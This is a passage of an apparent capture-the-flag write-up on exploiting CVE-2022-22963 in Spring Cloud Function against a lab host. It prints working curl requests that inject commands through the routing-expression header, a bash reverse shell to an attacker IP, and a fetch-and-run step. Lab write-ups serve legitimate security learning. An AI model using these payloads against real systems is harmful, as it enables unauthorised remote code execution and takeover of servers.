 ### Remote Code Execution (RCE)

The application was running [Spring Cloud 3.2.2](https://spring.io/projects/spring-cloud). This version was vulnerable to [CVE-2022-22963](https://nvd.nist.gov/vuln/detail/CVE-2022-22963). This allowed to use the routing functionality to [run code by passing it a 'routing-expression' header](https://sysdig.com/blog/cve-2022-22963-spring-cloud/).


I used the provided example to try execute a simple command on the server. 

```bash
$ curl -i -s -k -X $'POST' -H $'Host: target.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"wget 10.10.14.7")' --data-binary $'exploit_poc' $'http://target.htb:8080/functionRouter'

HTTP/1.1 500
Content-Type: application/json
Transfer-Encoding: chunked
Date: Sat, 01 Apr 2023 16:11:21 GMT
Connection: close

{"timestamp":"2023-04-01T16:11:21.274+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}%
```

I got a hit on my web server.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.204 - - [01/Apr/2023 12:11:15] "GET / HTTP/1.1" 200 -
```

I created a small script to execute a reverse shell.

```bash
$ cat shell.sh
#!/usr/bin/env bash

bash -i >& /dev/tcp/10.10.14.7/4444 0>&1
```

Then I used the vulnerability to download the script and execute it on the server.

```bash
$ curl -i -s -k -X $'POST' -H $'Host: target.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.7/shell.sh -o /tmp/shell.sh")' --data-binary $'exploit_poc' $'http://target.htb:8080/functionRouter'

$ curl -i -s -k -X $'POST' -H $'Host: target.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/shell.sh")' --data-binary $'exploit_poc' $'http://target.htb:8080/functionRouter'
```

It got the reverse shell as frank.
